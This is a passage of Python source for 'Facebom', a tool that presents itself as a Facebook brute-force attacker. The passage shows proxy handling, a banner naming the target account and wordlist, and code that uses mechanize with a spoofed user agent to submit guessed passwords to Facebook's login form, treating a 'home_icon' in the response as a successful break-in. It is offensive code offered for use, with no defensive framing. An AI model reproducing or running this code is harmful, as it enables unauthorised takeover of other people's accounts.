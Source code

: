                 print(rd+"["+yl+"Connection Failed"+rd+"] !!!"+wi)
                useproxy = False
                print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid HTTP/S Proxy["+rd+str(proxy)+yl+"]"+rd+" !!!"+wi)
                exit(1)
            else:
              useproxy = False
              print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid IPv4 ["+rd+str(proxy)+yl+"] "+rd+"!!!"+wi)
              exit(1)
    else:
      useproxy = False
    prox = gr+useproxy.split(":")[0]+wi+":"+yl+useproxy.split(":")[1] if useproxy !=False else ""
    proxystatus = prox+wi+"["+gr+"ON"+wi+"]" if useproxy !=False else yl+"["+rd+"OFF"+yl+"]"
    print(gr+"""
==================================
[---]        """+wi+"""Facebom"""+gr+"""         [---]
==================================
[---]  """+wi+"""BruteForce Facebook  """+gr+""" [---]
==================================
[---]         """+yl+"""CONFIG"""+gr+"""         [---]
==================================
[>] Target      :> """+wi+username+gr+"""
{}""".format("[>] Wordlist    :> "+yl+str(wordlist) if passwd==None else "[>] Password    :> "+yl+str(passwd))+gr+"""
[>] ProxyStatus :> """+str(proxystatus)+gr+"""      
=================================="""+wi+"""
[~] """+yl+"""Brute"""+rd+""" ForceATTACK: """+gr+"""Enabled """+wi+"""[~]"""+gr+"""
==================================
""")
    loop = 1
    br=mechanize.Browser()
    br.set_handle_robots(False)
    if useproxy !=False : br.set_proxies({'https':useproxy, 'http':useproxy})
    br.addheaders=[('User-agent',useragent())]
    issuccess = 0
    if passwd !=None:
          if not passwd.strip() or len(passwd) <6:
            print(yl+"\n["+rd+"!"+yl+"] Invalid Password [ "+rd+passwd+yl+" ]"+rd+" !!!"+wi)
            exit(1)
          passwd = passwd.strip()
          try:
            print(wi+"["+yl+"~"+wi+"] Trying Single Password[ {"+yl+str(passwd)+wi+"} ]")
            br.open("https://facebook.com")
            br.select_form(nr=0)
            br.form["email"]=username
            br.form["pass"]=passwd
            br.method="POST"
            if br.submit().get_data().__contains__('home_icon'):
              issuccess = 1
              print(wi+"==> Login"+gr+" Success\n")
              print(wi+"========================="+"="*len(passwd)+"======")
              print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
              print(wi+"========================="+"="*len(passwd)+"======")
            else : print(yl+"==> Login"+rd+" Failed\n")
          except(KeyboardInterrupt,EOFError):
            print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
            time.sleep(1.5)
            issuccess = 2
          except Exception as e:
            issuccess = 2
            print(rd+"\n["+yl+"!"+rd+"] Error: "+yl+str(e)+wi)
            time.sleep(0.60)
